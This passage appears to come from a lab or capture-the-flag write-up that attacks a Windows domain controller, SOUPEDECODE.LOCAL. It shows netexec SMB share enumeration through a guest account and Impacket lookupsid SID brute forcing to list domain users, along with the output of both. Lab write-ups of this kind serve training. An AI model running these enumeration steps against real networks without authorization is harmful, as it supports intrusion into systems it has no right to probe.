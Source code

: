 ```bash
netexec smb SOUPEDECODE.LOCAL -u 'guest' -p ''  --shares
```

Info:
```
SMB         10.0.4.17       445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:SOUPEDECODE.LOCAL) (signing:True) (SMBv1:False)
SMB         10.0.4.17       445    DC01             [+] SOUPEDECODE.LOCAL\guest: 
SMB         10.0.4.17       445    DC01             [*] Enumerated shares
SMB         10.0.4.17       445    DC01             Share           Permissions     Remark
SMB         10.0.4.17       445    DC01             -----           -----------     ------
SMB         10.0.4.17       445    DC01             ADMIN$                          Remote Admin
SMB         10.0.4.17       445    DC01             backup                          
SMB         10.0.4.17       445    DC01             C$                              Default share
SMB         10.0.4.17       445    DC01             IPC$            READ            Remote IPC
SMB         10.0.4.17       445    DC01             NETLOGON                        Logon server share 
SMB         10.0.4.17       445    DC01             SYSVOL                          Logon server share 
SMB         10.0.4.17       445    DC01             Users
```

Using both the NULL session and the enabled guest account, we are able to view the shares and identify two interesting ones: `backup` and `Users`, although we do not have permissions on them.

# Impacket lookupsid
Since we can enumerate using a NULL session, we run Impacket’s lookupsid.py to obtain a list of system users.

```bash
impacket-lookupsid SOUPEDECODE.LOCAL/anonymous@10.0.4.17 > user.txt
```
Info:
```
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

Password:
[*] Brute forcing SIDs at SOUPEDECODE.LOCAL
[*] StringBinding ncacn_np:SOUPEDECODE.LOCAL[\pipe\lsarpc]
[*] Domain SID is: S-1-5-21-2986980474-46765180-2505414164
498: SOUPEDECODE\Enterprise Read-only Domain Controllers (SidTypeGroup)
500: SOUPEDECODE\Administrator (SidTypeUser)
501: SOUPEDECODE\Guest (SidTypeUser)
502: SOUPEDECODE\krbtgt (SidTypeUser)
512: SOUPEDECODE\Domain Admins (SidTypeGroup)
513: SOUPEDECODE\Domain Users (SidTypeGroup)
514: SOUPEDECODE\Domain Guests (SidTypeGroup)
515: SOUPEDECODE\Domain Computers (SidTypeGroup)
516: SOUPEDECODE\Domain Controllers (SidTypeGroup)
517: SOUPEDECODE\Cert Publishers (SidTypeAlias)
518: SOUPEDECODE\Schema Admins (SidTypeGroup)
519: SOUPEDECODE\Enterprise Admins (SidTypeGroup)
520: SOUPEDECODE\Group Policy Creator Owners (SidTypeGroup)
521: SOUPEDECODE\Read-only Domain Controllers (SidTypeGroup)
522: SOUPEDECODE\Cloneable Domain Controllers (SidTypeGroup)
525: SOUPEDECODE\Protected Users (SidTypeGroup)
526: SOUPEDECODE\Key Admins (SidTypeGroup)
527: SOUPEDECODE\Enterprise Key Admins (SidTypeGroup)
553: SOUPEDECODE\RAS and IAS Servers (SidTypeAlias)
571: SOUPEDECODE\Allowed RODC Password Replication Group (SidTypeAlias)
572: SOUPEDECODE\Denied RODC Password Replication Group (SidTypeAlias)
1000: SOUPEDECODE\DC01$ (SidTypeUser)
1101: SOUPEDECODE\DnsAdmins (SidTypeAlias)
1102: SOUPEDECODE\DnsUpdateProxy (SidTypeGroup)
```